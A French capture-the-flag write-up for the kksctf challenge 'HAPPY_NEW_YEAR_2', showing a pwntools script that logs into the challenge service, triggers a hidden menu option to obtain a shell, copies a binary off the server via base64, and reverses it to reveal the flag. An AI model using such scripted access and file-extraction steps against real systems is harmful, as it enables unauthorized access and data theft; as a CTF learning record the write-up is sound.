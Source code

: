 # HAPPY_NEW_YEAR_2
On se connecte en tant que kks_santa, et on nous propose de boire une biere :
```
Hi, this is secret Santa 🎅
You can send a gift to a stranger and make him a pleasant surprise for the new year 🎊.

====================
[1] Sign up
[2] Sign in
[3] Exit

Option> 2
Enter username: kks_santa
Enter password: year2020
Logged in!

====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> 4
```
En regardant le binaire on a une string : `str.You_are_really_kks_santa ; 0x4638 ; "\nYou are really kks santa!\n"`
alors on va essayer de la faire apparaitre....pour cela il suffit de boire exactement 128 bières et de taper en option `1kks_santa`
comme c'est long 128 on va faire un script :
```python

from pwn import *
import time

conn = remote('tasks.kksctf.ru', 30040)

print(conn.recvuntil('Option> ').decode())
conn.send(b'2\n')
print(conn.recv(1024))
conn.send(b'kks_santa\n')
print(conn.recv(1024))
conn.send(b'year2020\n')

for i in range(128):
    received = conn.recvuntil('Option> ').decode()
    drunk = received.splitlines()
    drunk = [ drunk[i+1] for i,elt in enumerate(drunk) if 'Already drunk' in elt and drunk[i+1][0] != '\x1b']
    if drunk:
        print(drunk)
    #time.sleep(0.1)
    conn.send('4/n')
    conn.recv(1024)

conn.send(b'1kks_santa\n')
conn.interactive()
```
Quand on l'exécute on obtient un shell dégueulasse :
```
[+] Opening connection to tasks.kksctf.ru on port 30040: Done
Hi, this is secret Santa 🎅
You can send a gift to a stranger and make him a pleasant surprise for the new year 🎊.

====================
[1] Sign up
[2] Sign in
[3] Exit

Option> 
b'\x1b[0m'
b'Enter username: \x00'
["This is just the beginning, isn't it 😉?"]
['Is the holiday knocking on our door🎊?']
["Sure enough, he's already at the door🎉"]
["Oh yeah, do you smell that tangerine smell on new year's eve🍊"]
["Isn't it time to end the holiday, my friend😳?"]
[*] Switching to interactive mode

====================
Relax and have a beer🍻?
Yes    Yes
Already drunk: 128!🍺
Dude, you're a real beast, I can tell you were preparing for the New year!🤯🤯🤯🤯
\x00[31m
====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> 
====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> Spying on others isn't good⛔, even though you're kks Santa🕵️

====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> 
You are really kks santa!
\x00 \x00 \x00$ id
uid=1000(santa) gid=1000(santa) groups=1000(santa)
$ \x00$  
```
on se balade dans la machine on a rien le droit de faire mais on trouve quand même un binaire dans **/home/santa/secret**
quand on l'exécute on a le droit à : `This incident will be sent to the main Santa. I'll say you've been bad this year.`
maintenant la partie chiante il faut le rappatrier pour l'analyser en sachant qu'on ne peut meme pas faire de cd
```base64 /home/santa/secret```
on copie en local puis :
``` echo '......' | tr -d '\n' | base64 -d > secret```
on l'analyse avec radare et il n'y a que la fonction main :
![unknown.png](../attachements/happy_new_year_2/unknown.png "unknown.png")
Bon ba c'est tout simple il suffit de setter une variable d'env :
```
$ SECRET_TOKEN_ENV="4lm057_d0n3" /home/santa/secret
kks{w0w_y0u_4r3_7h3_r007_s4n74_6u7_did_y0u_74k3_411_7h3_pr353n75}
```
et on a le flag 🙂
flag : `kks{w0w_y0u_4r3_7h3_r007_s4n74_6u7_did_y0u_74k3_411_7h3_pr353n75}`
GG ! Enfin un qui ne fait pas partie de ceux qui ne sont rien
<:macron:784920050544017429>
